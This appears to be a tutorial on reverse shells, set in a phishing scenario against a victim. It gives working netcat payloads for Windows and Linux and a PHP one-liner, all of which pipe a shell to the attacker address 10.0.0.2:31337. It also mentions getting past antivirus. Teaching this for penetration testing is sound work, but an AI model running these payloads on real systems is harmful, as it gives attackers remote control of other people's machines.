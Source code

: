 Social engineering attacks include manipulating human behavior in order to get them to do something that compromises the security of the data or systems.

A phishing attack occurs when a hacker embeds a malicious link in an email or on a website and convinces the victim into clicking on it. As a result, the attacker can steal important user information, install malware on his/her system, and much more.

Let's suppose an attacker already has a server running on his computer. He sends the victim user a seemingly harmless email with an embedded link containing the reverse shell payload. The reverse shell now triggers as soon as the user opens the link, giving the hacker access to the victim's PC.

## Examples of Simple Reverse Shells:

Different programming languages and tools can be used to generate reverse shells. This section goes through some of the most prevalent methods for making reverse shells.

<u>1. Netcat:</u>

Netcat is a command-line utility for sending and receiving data over a network. Netcat is extensively used in network penetration testing. The development and execution of reverse shells are one of the most common uses of Netcat when verifying the security of a network.

To use Netcat to build a reverse shell, you must first create a listener on your own machine. Let's suppose you want to create a listener on port 31337. You will use the following command:

`nc -l -p 31337`

This command is telling the server to listen for any incoming connections on this port. Now after creating this listener, your victim machine must use your machine's IP address to create a connection. Let's say your server's IP address is 10.0.0.2 and you are using port 31337 to listen for incoming connections.

For **Windows OS** you will use the following payload:

`nc 10.0.0.2 31337 -e cmd.exe`

The -e parameter instructs the target machine to use cmd.exe (command prompt) to interpret the incoming commands.

For **Linux OS** you will use the following payload:

`nc 10.0.0.2 31337 -e /bin/bash`

The -e switch instructs the target machine to interpret the incoming commands using bash shell.

<u>2. PHP Reverse Shell:</u>

Antivirus software can sometimes flag Netcat as malware, making its operation on the target machine problematic. In such cases, reverse shells written in other programming languages might be extremely valuable.

**Note:** We will use the IP address 10.0.0.2 and port 31337 for all of our examples.

If your target webserver uses the PHP programming language, you can use PHP to construct a reverse shell. You can use this one-liner PHP reverse shell payload:

`php -r '$socket=fsockopen("10.0.0.2",31337);exec("/bin/sh -i <&3 >&3 2>&3");'`

- The fsockopen function establishes a socket connection with the specified IP address and port number and saves the handle in the `$socket` variable.
- The exec function takes the input from this stream, executes it, and writes the output to it.
